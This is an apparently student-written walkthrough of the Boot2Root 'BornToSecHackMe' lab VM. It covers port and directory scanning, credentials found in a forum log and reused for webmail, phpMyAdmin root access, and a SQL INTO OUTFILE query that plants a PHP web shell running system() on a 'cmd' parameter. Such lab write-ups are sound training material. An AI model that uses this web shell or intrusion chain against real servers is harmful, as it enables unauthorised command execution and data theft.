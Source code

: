 # Root privilege escalation - Method 1

## Get VM IP

Requirements: `VirtualBox Guest Addition`

As there is no visible IP in the virtual machine, we need to find the IP.

We could use VboxManage for this job. There is multiple way to get it.

```shell
# On host machine
VM_NAME="boot2Root"

MAC_ADDRESS=`VBoxManage showvminfo $VM_NAME | grep -oP 'MAC: \K[^",]+' | sed -e 's/[0-9A-F]\{2\}/&:/g' -e 's/:$//'` # sed adds ':' every two chars
VM_IP=`ip neighbor | grep -i $MAC_ADDRESS | cut -d' ' -f1`

export BR_HOST=$VM_IP
```

---

## Scan Ports

Requirements: `nmap`

Now we have the IP, we can scan the open ports with `nmap`

```shell
nmap $B2R_HOST

  Starting Nmap 7.60 ( https://nmap.org ) at 2020-12-09 11:20 CET
  Nmap scan report for BornToSecHackMe-1.home (192.168.1.72)
  Host is up (0.00016s latency).
  Not shown: 994 closed ports
  PORT    STATE SERVICE
  21/tcp  open  ftp
  22/tcp  open  ssh
  80/tcp  open  http
  143/tcp open  imap
  443/tcp open  https
  993/tcp open  imaps

  Nmap done: 1 IP address (1 host up) scanned in 0.06 seconds
```

## Directory Bruteforcing on Web Server

Lets investigate the ports 80 (http) and 443 (https)

### Port 80

Requirements: `dirb`

```shell
dirb http://192.168.1.74

  ---- Scanning URL: https://192.168.1.73/ ----
  + http://192.168.1.74/cgi-bin/ (CODE:403|SIZE:288)
  ==> DIRECTORY: http://192.168.1.74/fonts/
  + http://192.168.1.74/forum (CODE:403|SIZE:285)
  + http://192.168.1.74/index.html (CODE:200|SIZE:1025)
  + http://192.168.1.74/server-status (CODE:403|SIZE:293)
```

#### /index.html

Static page. Nothing really interesting
![](images/index:80.png)

#### /forum

![](images/forum:80.png)

---

### Port 443

Lets see if we are luckier with https port

```shell
dirb https://192.168.1.74

  ---- Scanning URL: https://192.168.1.74/ ----
  + https://192.168.1.74/cgi-bin/ (CODE:403|SIZE:289)
  ==> DIRECTORY: https://192.168.1.74/forum/
  ==> DIRECTORY: https://192.168.1.74/phpmyadmin/
  + https://192.168.1.74/server-status (CODE:403|SIZE:294)
  ==> DIRECTORY: https://192.168.1.74/webmail/
```

In addition to the `/forum`, we have two more directories: `phpmyadmin` and `webmail`

#### /forum

This time the forum is accessible.

One post from `lmezard` is particularly interesting: `/forum/index.php?mode=thread&id=6`
The user `lmezard` has posted a long auth log that contains string with random chars like a password.

We can image the user has typed multiples times the password, and has typed the password instead of the user.

![](images/auth_log.png)

Lets try to log in with the couple `lmezard`:`!q\]Ej?*5K5cy*AJ`

It works and we can access to the user account settings

We can see an email: `laurie@borntosec.com`. It will be useful later.

We remember there is a `/webmail` folder, lets check it out.

#### /webmail

Many people uses the same password everywhere. Does `lmezard` do it ?

We try to connect with: `laurie@borntosec.com`:`!q\]Ej?*5K5cy*AJ`

It works ! There is two mails. One object mail is: "DB ACCESS"
![](images/mail_db_access.png)

#### /phpmyadmin

We can access the database with the credentials `root`:`Fg-'kKXBj87E:aJ$`

##### userdata table

There is a database named `forum-db` that contains tables including `mlf2-userdata`. This table contains a field `user_pw` of 50 characters.

![](images/mlf2_userdata.png)

While looking the source code of "mlf" ([mylittleforum](https://github.com/ilosuna/mylittleforum)), we found [how the password is hashed](https://github.com/ilosuna/mylittleforum/blob/ffbea1564ec76587e37acac1d33da519729c107c/includes/functions.inc.php#L2077-L2089):

```php
function generate_pw_hash($pw)
{
  $salt = random_string(10,'0123456789abcdef');
  $salted_hash = sha1($pw.$salt);
  $hash_with_salt = $salted_hash.$salt;
  return $hash_with_salt;
}
```

The algorithm is SHA-1 and a salt of 10 characters is append as suffix.

Unfortunately, we never succeed to unhash the passwords.

##### Webshell

We [discover](<(https://blog.netspi.com/linux-hacking-case-studies-part-3-phpmyadmin/)>) we are able to create a web shell using a SQL request.

The given webshell is:

```SQL
SELECT "<HTML><BODY><FORM METHOD=\"GET\" NAME=\"myform\" ACTION=\"\"><INPUT TYPE=\"text\" NAME=\"cmd\"><INPUT TYPE=\"submit\" VALUE=\"Send\"></FORM><pre><?php if($_GET['cmd']) {system($_GET[\'cmd\']);} ?> </pre></BODY></HTML>"
INTO OUTFILE '/var/www/phpMyAdmin/cmd.php'
```

Unfortunately, we can not write at `/var/www/phpMyAdmin/cmd.php`, but it works if the path is `/tmp/aaa`. We need to find a path with correct rights.

![](images/webshell_cant_write.png)

`dirb` tool could maybe help us.

```shell
dirb https://192.168.1.74

  (...)
  ---- Entering directory: https://192.168.1.74/forum/ ----
  + https://192.168.1.74/forum/backup (CODE:403|SIZE:293)
  + https://192.168.1.74/forum/config (CODE:403|SIZE:293)
  ==> DIRECTORY: https://192.168.1.74/forum/images/
  ==> DIRECTORY: https://192.168.1.74/forum/includes/
  + https://192.168.1.74/forum/index (CODE:200|SIZE:4935)
  + https://192.168.1.74/forum/index.php (CODE:200|SIZE:4935)
  ==> DIRECTORY: https://192.168.1.74/forum/js/
  ==> DIRECTORY: https://192.168.1.74/forum/lang/
  ==> DIRECTORY: https://192.168.1.74/forum/modules/
  ==> DIRECTORY: https://192.168.1.74/forum/templates_c/
  ==> DIRECTORY: https://192.168.1.74/forum/themes/
  ==> DIRECTORY: https://192.168.1.74/forum/update/
  (...)
```

|                                      |                                                  |
| ------------------------------------ | ------------------------------------------------ |
| `/var/www/phpMyAdmin/cmd.php`        | ❌ Can't create/write to file                    |
| `/var/www/cmd.php`                   | ❌ Can't create/write to file                    |
| `/var/www/forum/cmd.php`             | ❌ Can't create/write to file                    |
| `/var/www/forum/js/cmd.php`          | ❌ Can't create/write to file                    |
| `/var/www/forum/lang/cmd.php`        | ❌ Can't create/write to file                    |
| `/var/www/forum/modules/cmd.php`     | ❌ Can't create/write to file                    |
| `/var/www/forum/templates_c/cmd.php` | ✅ Your SQL query has been executed successfully |

Cool, lets check it out at https://192.168.1.74/forum/templates_c/cmd.php

![](images/webshell_test.png)

We have a shell-like

---

### Sources

## Hack

- [5 Ways to Directory Bruteforcing on Web Server](https://www.hackingarticles.in/5-ways-directory-bruteforcing-web-server/)
- [Linux Hacking Case Studies Part 3: phpMyAdmin](https://blog.netspi.com/linux-hacking-case-studies-part-3-phpmyadmin/)

## WebShell

- [phpMyAdminWebShell.sql](https://github.com/nullbind/Other-Projects/blob/master/random/phpMyAdminWebShell.sql)

## Sources

- [mylittleforum sources](https://github.com/ilosuna/mylittleforum)

## Man

- [nmap](https://linux.die.net/man/1/nmap)
- [dirb](https://tools.kali.org/web-applications/dirb)

